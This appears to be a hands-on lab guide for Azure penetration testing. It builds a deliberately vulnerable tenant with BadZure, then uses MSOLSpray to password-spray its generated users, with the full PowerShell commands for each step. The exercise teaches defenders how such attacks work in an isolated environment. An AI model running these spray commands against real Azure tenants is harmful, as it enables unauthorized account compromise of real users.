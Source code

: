 
### References
* https://github.com/mvelazc0/BadZure/
* https://www.youtube.com/watch?v=7IdyU7tQgww

### Pre-Requisites
1. Deploy Azure PenTest VM
* https://github.com/davidokeyode/azure-cloudsec-practitioner/tree/main/pentest-vm-win
* https://davidokeyode.medium.com/azure-cloudsec-practitioner-series-1-deploying-an-azure-pentest-vm-f65adbc40edb

2. You are logged into the Azure PenTest VM

### Prepare the environment
1. Verify Dependencies
```
Get-Module Microsoft.Graph -ListAvailable
Get-Module Azure -ListAvailable
```

2.  Connect to Azure and Microsoft Graph
```
Connect-AzAccount
Connect-MgGraph
```

3. Import the BadZure Script
```
cd $env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure
. ./Invoke-BadZure.ps1
```

4. Make note of the username and password for the three attack paths
![Attack Path Output](image.png)

5. Review populated users
```
ls
notepad users.txt
```

### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the BadZure directory to the MSOLSpray directory
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"
```

3. Run MSOLSpray
```
Invoke-MSOLSpray -UserList .\users.txt -Password "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" -Verbose -OutFile .\sprayresults.txt
```

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
notepad sprayresults.txt
```

